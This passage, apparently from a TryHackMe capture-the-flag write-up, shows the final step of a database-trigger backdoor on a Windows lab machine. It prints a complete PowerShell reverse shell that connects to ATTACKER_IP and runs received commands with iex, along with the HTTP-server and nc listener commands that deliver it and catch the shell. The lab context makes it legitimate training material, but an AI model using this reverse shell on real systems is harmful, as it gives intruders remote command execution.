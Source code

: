 Now that the backdoor is set up, let's create `evilscript.ps1` in our attacker's machine, which will contain a Powershell reverse shell:

```powershell
$client = New-Object System.Net.Sockets.TCPClient("ATTACKER_IP",4454);

$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
    $sendback = (iex $data 2>&1 | Out-String );
    $sendback2 = $sendback + "PS " + (pwd).Path + "> ";
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
    $stream.Write($sendbyte,0,$sendbyte.Length);
    $stream.Flush()
};

$client.Close()
```

We will need to open two terminals to handle the connections involved in this exploit:

- The trigger will perform the first connection to download and execute `evilscript.ps1`. Our trigger is using port 8000 for that.
- The second connection will be a reverse shell on port 4454 back to our attacker machine.

| AttackBox<br><br>python3 -m http.server <br>Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ... <br> | AttackBox<br><br>nc -lvp 4454<br>Listening on 0.0.0.0 4454<br> |
| ------------------------------------------------------------------------------------------------------------- | -------------------------------------------------------------- |

With all that ready, let's navigate to `http://10.10.173.151/` and insert an employee into the web application. Since the web application will send an INSERT statement to the database, our TRIGGER will provide us access to the system's console.

![THM flag](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/362875749378007cc447a2e47d476c9b.png)

Use your web shell to execute `C:\flags\flag17.exe` to get your flag!

Once we did all steps, we need to add an employee to get our shell:

![](../images/Pasted%20image%2020250516120626.png)

Let's add one and check our listener:

![](../images/Pasted%20image%2020250516120648.png)

![](../images/Pasted%20image%2020250516120855.png)

There we go, let's read our flag:

```
PS C:\Windows\system32> C:\flags\flag17.exe
THM{I_LIVE_IN_YOUR_DATABASE}
```

# Conclusion
---
